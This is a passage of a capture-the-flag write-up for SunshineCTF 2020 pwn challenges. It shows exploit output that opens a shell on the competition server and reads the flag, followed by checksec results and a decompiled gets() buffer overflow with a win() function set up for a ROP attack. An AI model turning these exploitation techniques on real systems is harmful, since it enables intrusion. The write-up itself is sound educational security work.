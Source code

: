 pwntools has you covered!

Output:

```bash
# ./exploit_09.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-09/chall_09'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.2020.sunshinectf.org on port 30009: Done
[*] Switching to interactive mode
$ id
uid=1000(chall_09) gid=1000(chall_09) groups=1000(chall_09)
$ ls -l
total 16
-rwxr-xr-x 1 root root     8648 Nov  7 07:49 chall_09
-rw-r----- 1 root chall_09   34 Nov  7 08:52 flag.txt
$ cat flag.txt
sun{coming-home-4202dcd54b230a00}
```


## speedrun-10

### Checksec
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

No canary--BOF, No PIE--ROP.

### Decompile with Ghidra

```c
void vuln(void)
{
  char local_3e [54];
  
  __x86.get_pc_thunk.ax();
  gets(local_3e);
  return;
}

void win(int param_1)
{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  if (param_1 == -0x21524111) {
    system((char *)(iVar1 + 0x12e));
  }
  return;
}
```
